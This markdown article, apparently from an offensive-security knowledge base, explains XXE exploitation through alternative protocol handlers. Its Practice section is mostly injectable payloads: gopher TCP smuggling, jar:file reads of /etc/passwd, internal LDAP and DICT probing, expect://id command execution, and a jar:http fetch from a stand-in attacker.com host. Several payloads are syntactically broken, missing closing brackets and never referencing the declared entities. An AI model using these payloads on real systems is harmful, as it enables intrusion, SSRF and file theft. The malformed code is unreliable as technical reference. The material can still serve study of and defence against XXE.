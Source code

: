 ```yaml
---
title: Alternative Protocol Handlers in XXE Explained
description: 'Explore advanced XXE exploitation via alternative protocol handlers:
  gopher, jar, ldap. Learn their capabilities and techniques.'
keywords:
- XXE exploitation
- alternative protocol handlers
- gopher protocol
- jar protocol
- ldap handler
- dict protocol
- expect protocol
- XML External Entity attacks
---
```


# Alternative Protocol Handlers

## Context

The purpose of this article is to demonstrate how alternative protocol handlers can be exploited in XML External Entity (XXE) attacks. These handlers, including gopher, jar, ldap, dict, expect, and netdoc, allow for advanced payload delivery and increased impact. It is assumed that readers are familiar with the basics of XML External Entities (XXE) and the standard protocol handler exploitation techniques such as FTP and HTTP/HTTPS.

## Theory

### Alternative Protocol Handlers in XXE

Alternative protocol handlers involve non-standard URI schemes such as gopher, jar, ldap, dict, expect, and netdoc to enhance the effectiveness of XXE payloads. These handlers extend the attack surface beyond the conventional HTTP and FTP methods. In an attack scenario, the attacker crafts an XXE payload that references a non-standard protocol, which can trigger specific backend actions that are otherwise unachievable through traditional means.

### Protocol Handler Capabilities and Use Cases

Each protocol handler provides unique capabilities for interacting with backend systems. For instance, the gopher protocol can be used for raw TCP interactions, while the ldap handler can query directory services. The vulnerability model in this case involves an application that allows external entity resolution and supports the given protocol handler. Some handlers, like gopher or ldap, can even bypass network restrictions or induce Server-Side Request Forgery (SSRF)-like behaviors, making them particularly valuable to attackers.

### Protocol Chaining and Custom Handlers

Protocol chaining can be used to combine multiple protocols (for example, jar+http) in order to bypass filters or escalate the attack's impact. When applications implement custom or inadequately filtered handlers, it can lead to unexpected backend access. This emphasizes the need to be aware of such potential weaknesses when crafting XXE payloads.

## Practice

### Gopher Protocol XXE for Arbitrary TCP Payloads

- **Payload:**

  ```xml
  <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "gopher://target:port/_PAYLOAD">]>
  ```

  Replace `target`, `port`, and `_PAYLOAD` with the desired values to exploit this handler.

- **Execution:**
  - Inject this payload into an XML input that is processed by a vulnerable application.

- **Expected Outcome:**
  - The backend server sends arbitrary data to internal or external services using the gopher protocol.

### JAR Protocol XXE for File Read/SSRF

- **Payload:**

  ```xml
  <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "jar:file:///etc/passwd!/"]>
  ```

  This tries to read local files using the jar protocol handler.

- **Execution:**
  - Submit this payload to an XXE-vulnerable endpoint.

- **Expected Outcome:**
  - File contents may be returned if the handler supports this operation, providing filesystem access.

### LDAP Protocol XXE for Internal Enumeration

- **Payload:**

  ```xml
  <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "ldap://localhost:389/o=example">]>
  ```

  Targets an internal LDAP service for enumeration or SSRF attacks.

- **Execution:**
  - Inject the payload and observe the backend LDAP queries.

- **Expected Outcome:**
  - Enumerates or interacts with internal LDAP services, potentially leaking sensitive data.

### DICT Protocol XXE for Service Discovery

- **Payload:**

  ```xml
  <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "dict://localhost:2628/"]>
  ```

  Attempts to connect to a DICT service for discovery or SSRF.

- **Execution:**
  - Inject the payload and monitor for backend DICT service requests.

- **Expected Outcome:**
  - Discover internal services like DICT or others within the network.

### EXPECT Protocol XXE for Command Execution (if supported)

- **Payload:**

  ```xml
  <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "expect://id">]>
  ```

  Attempts OS command execution via the expect handler.

- **Execution:**
  - Submit this payload to the vulnerable endpoint.

- **Expected Outcome:**
  - Execute OS commands, with results returned if the handler is enabled and not restricted.

### Protocol Chaining for Filter Bypass

- **Payload:**

  ```xml
  <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "jar:http://attacker.com/payload.jar!/"]>
  ```

  Combines jar and http to bypass filters or trigger remote file access.

- **Execution:**
  - Inject the chained protocol payload into an XXE vector.

- **Expected Outcome:**
  - Continued exploitation by bypassing input validation or escalating XXE impact through protocol chaining.

## Tools

- **Burp Suite**
- **XXEinjector**
- **Custom Python scripts**